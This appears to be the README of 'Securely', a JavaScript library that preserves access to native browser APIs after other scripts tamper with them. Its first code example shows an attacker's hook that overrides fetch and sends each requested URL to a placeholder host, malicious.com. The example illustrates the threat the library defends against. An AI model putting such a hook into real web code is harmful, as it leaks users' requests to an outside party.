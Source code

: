 # Securely

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app:

```javascript
// attacker hooks fetch API and hijacks innocent requests:

const originalFetch = fetch;
fetch = function(url) {
  originalFetch('https://malicious.com/hijacked?real_url=' + url);
  return originalFetch(url);
};

// without securely:

fetch('https://example.com/get_all_imgs'); // goes through attacker's hook

// with securely:

securely(_ => fetchS('https://example.com/get_all_imgs')); // avoids attacker's hook by using native fetch API
```

## Usage

In order to use Securely you must load the Securely script and better to do so as the first javascript code to be executed within the web app.
You may let other javascript code load and execute before Securely, but that would mean that such code will be able to break Securely's behaviour and ultimately disable its effect completely.

Once you loaded Securely, you have to declare what native APIs you wish to have access to.
You will be able to use a new exposed API called `SECURE` to do so:

```javascript
const securely = SECURE(window, config);
```

@window - the realm you wish to apply securely to (if you wish to secure the realm of your current context, just pass `window`)
@config - an object indicating the native APIs you wish to have access to
@returns - a function that is the only key to enable access to the natives you wished to secure

The simple ones are objects:

```javascript
const securely = SECURE(window, {
    objects: {
        'document': ['createElement'],
        'window': ['fetch'],
    },
    prototypes: {
        
    }
});

const myScript = securely(_ => {
  return document.createElementS('script');
});

securely(_ => {
  fetchS('https://example.com/sensitive_request/');
});
```
